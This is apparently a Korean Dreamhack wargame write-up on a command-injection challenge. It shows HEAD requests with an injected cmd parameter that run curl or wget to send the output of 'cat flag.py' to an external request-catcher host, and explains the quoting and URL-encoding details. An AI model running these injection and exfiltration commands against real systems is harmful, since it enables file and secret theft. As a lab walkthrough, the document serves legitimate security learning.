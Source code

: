 ### 1. `curl` : 원격 서버에 POST 메서드로 `cat flag.py`의 결과를 데이터에 전송

```
curl https://yzyozog.request.dreamhack.games -d "$(cat flag.py)"
```

위 명령어가 시스템 함수에 수행되도록 `HEAD` 요청을 워게임 서버에 전송하면 된다.

`-d` 명령어는 원격 서버에 `POST` 요청을 보낸다는 옵션이며, 바로 뒤의 `$(cat flag.py)`가 해당 요청의 데이터값이다.

`$()`은 명령어의 수행 결과값을 치환하는 메타 문자로, `cat flag.py`가 시스템 함수에서 수행된 후 결과 값이 치환되어 `POST` 요청의 데이터에 저장될 것이다.

``` ` ```를 통해 명령어를 치환해도 똑같은 결과가 나오지만, `$()`이 훨씬 가독성면에서 더 직관적이고, 중첩 상황에서 예외가 발생하지 않기 때문에 많이 사용된다는 것을 참고하자.

참고로, `"$()"`와 달리 `$()`만 사용하여 `""`로 묶어주지 않으면 `flag.py`의 내용이 `FLAG = DH{~}` 이기 때문에, 공백에 따라 데이터가 끊겨서 아래와 같이 `FLAG`만 전달되게 된다.

<img width="595" alt="image" src="https://github.com/user-attachments/assets/e29c99f7-ccc6-4c8a-93c4-a80dcb13f197">

따라서, `curl -d` 를 통해 데이터를 보낼 때는 데이터에 공백이 포함된 경우 `""`로 묶어서 하나의 데이터로 해석되게 해야함을 유의하자.

그리고 Burp Suite에서 `HEAD` 메서드로 원격 서버에 요청을 전달할 때는 **URL 인코딩 형식**으로 보내야 하기 때문에 공백은 `+`로 바꿔서 써야 한다.

따라서 아래의 요청을 전달하면 되고, 드림핵 툴즈에 들어가보면 아래와 같이 `cat flag.py`의 결과값이 전송되는 것을 확인할 수 있다.

```
HEAD /?cmd=curl+https://offxuuz.request.dreamhack.games+-d+"$(cat+flag.py)" HTTP/1.1
```

<img width="609" alt="image" src="https://github.com/user-attachments/assets/dacb7c93-16e3-4574-87f7-7971d5235794">

### 2. `curl` : 원격 서버에 GET 메서드로 `cat flag.py`의 결과를 파라미터로 전송

위와 똑같은 방식으로 `GET` 요청을 보내서 아래와 같이 쿼리 파라미터에 데이터를 담아올 수도 있다.

```
curl https://offxuuz.request.dreamhack.games/?query="$(cat+flag.py)"
```

위 명령어가 수행되도록 `HEAD` 요청을 보내면 헤더의 QueryString에 `query`의 결과가 담겨온다.

그런데, `""`을 제외하고 요청을 보내면 아래와 같이 `FLAG` 뒷 부분은 공백 때문에 짤리지만, HTTP 요청은 잘 보내진다.

<img width="590" alt="image" src="https://github.com/user-attachments/assets/c9b6cea6-a5c8-4640-9d1b-d7f0fa209eb3">

하지만, `""`로 `$()` 부분을 감싸서 보내면 아예 원격 서버로 HTTP 요청이 보내지지도 않았다.

```
HEAD /?cmd=curl+https://offxuuz.request.dreamhack.games/?query="$(cat+flag.py)" HTTP/1.1
```

뭔가 쿼리 파라미터에서는 URL 인코딩이 되어야 하나 생각을 해서 `"`의 인코딩 결과인 `%22`로도 감싸봤지만 똑같이 안됬다.

```
HEAD /?cmd=curl+https://offxuuz.request.dreamhack.games/?query=%22$(cat+flag.py)%22 HTTP/1.1
```

해당 이유는 조금 더 공부를 해보고 수정해야겠다. 대부분 `curl`을 보낼 때도 `POST` 메서드를 통해 보내서 딱히 크게 신경쓰지 않아도 되지만 다음에 알아낸 후 수정해보겠다.

### 3. `wget` : 원격 서버에 POST 메서드로 `cat flag.py`의 결과를 파라미터로 전송

```
wget https://dzmnkob.request.dreamhack.games --method=POST --body-data="$(cat flag.py)"
```
```